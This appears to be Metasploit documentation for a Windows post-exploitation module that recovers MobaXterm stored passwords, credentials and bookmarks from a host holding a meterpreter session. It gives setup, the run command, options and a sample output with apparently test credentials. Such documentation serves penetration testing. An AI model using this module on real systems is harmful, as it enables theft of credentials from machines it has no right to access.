 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and MobaXtrem v20.6+
  installed. The following passwords will be searched for and recovered:

### Installation Steps

  1. Download the latest installer of MobaXtrem.
  2. Select default installation
  3. Open the software and click "Setting" in the toolbar, `General > MobaXtrem password management > Master Password setting`
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/moba_xtrem```
  3. If the system has registry keys for MobaXtrem passwords they will be printed out.

## Options

 **MASTER_PASSWORD**

- If you know the password, you can skip decrypting the master password. If not, it will be decrypted automatically

 **CONFIG_PATH**

- Specifies the config file path for MobaXterm

## Scenarios

```

msf6 post(windows/gather/credentials/moba_xtrem) > run
[*] Gathering MobaXterm session information from WIN-79MR8QJM50N
[!] Parsing is not supported: #84#9%C:\Users\FireEye\Desktop%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24
%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #131#8%0%1009600%3%0%0%1%2%COM2  (ͨ˿ (COM2))#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Color
s_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #97#10%0%#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[!] Parsing is not supported: #88#3%%0%-1%0%0%0%localhost%7100%1%0%1%0%657%336%0%0#MobaFont%10%0%0%-1%15%236,236,236%30,30,30%180,180,192%0%-1%0%%xterm%-1%-1%_
Std_Colors_0_%80%24%0%1%-1%<none>%%0#0# #-1
[+] MobaXterm Password
==================       
                                                                                                                                                               
Protocol  Hostname    Username  Password                                                                                                                       
--------  --------    --------  --------                                                                                                                       
          mobaserver  mobauser  278804moba14071pass317387                                                                                                      
                                                                                                                                                               
[+] MobaXterm Credentials
=====================

CredentialsName  Username  Password
---------------  --------  --------
ftp              1212
ssh              root      admin

[+] MobaXterm Bookmarks
===================

BookmarksName  Protocol  ServerHost           Port  Credentials or Passwords
-------------  --------  ----------           ----  ------------------------
ftp            ftp       ftp.asdas.com        21    asdas
msf            telnet    msf                  23    msf
rdp (rdp)      rdp       rdp                  3389  rdp
rsh            rsh       rdp.baid.com         rsh   #MobaFont
sftp           sftp      sftp.asdasd.com      22    asdasd
ssh            ssh       127.0.0.1            22    [ssh]
telnet_test    telnet    telnet.kali-team.cn  23    admin
vnc            vnc       vnc.basbas.com       5900  -1


```
